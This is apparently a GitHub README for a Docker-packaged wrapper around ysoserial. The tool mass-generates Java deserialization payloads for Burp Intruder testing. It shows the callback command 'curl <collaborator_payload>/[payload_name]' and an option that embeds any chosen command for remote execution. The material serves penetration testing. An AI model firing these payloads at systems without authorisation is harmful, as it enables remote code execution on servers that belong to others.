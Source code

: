 # ysoserial-cannon

Python wrapper based for [ysoserial](https://github.com/frohoff/ysoserial) and [ysoserial-wrapper](https://github.com/aludermin/ysoserial-wrapper) to make exploitation of the JAVA [Insecure Deserialization](https://portswigger.net/web-security/deserialization) vulnerabilities, perfect for situations where you need to rapidly test all payloads in bulk and automate the process of firing them off in tools like Burp Suite Intruder to find vulnerabilities fast.

## Requirements
- Pull image:
```shell
docker pull b3xal/ysoserial-cannon
```

## Usage
```
docker run -it --rm b3xal/ysoserial-cannon -h

usage: docker run -it --rm b3xal/ysoserial-cannon [-h] [-c 'COMMAND'] [-gzip] [-b64]

options:
  -h, --help            show this help message and exit
  -c 'COMMAND', --command 'COMMAND'
                        Command to be executed
  -gzip                 Compress the payload with gzip before encoding in base64
  -b64                  Do not url-encode, output base64 string

```

## Walkthrough
Without any parameters given, it will ask for a collaborator url:
```
docker run -it --rm b3xal/ysoserial-cannon   
[*] No payload defined, using curl <collaborator_payload>/[payload_name]
[!]	Enter your collaborator payload:

```
and build every possible payload using command:
```
curl <collaborator_payload>/[payload_name]
```
and then displays them in order to copy the required payloads to your intruder:
```
[+]		Generating Spring1 payload ...
[+]		Generating Spring2 payload ...
[+]		Generating URLDNS payload ...
[+]		Generating Vaadin1 payload ...

[!] There are 26 payloads waiting in your clipboard ...

```

![Payloads](img/payloads.png)

You can use them in an Intruder attack to check which payloads worked:

![Intruder](img/intruder.png)
![Collaborator](img/collaborator.png)

## Worth reading

By default, the raw payload will be base64 encoded and next url encoded.
There are 2 switches to modify this behaviour:
- `-gzip` - will make the script to compress raw payload before encoding in base64
- `-b64` - will turn off url encoding, you will get a base64 encoded payload

You can also use `-c` or `-command` switch to generate payloads of your choice from the start.
Beware of quotes in commands :)
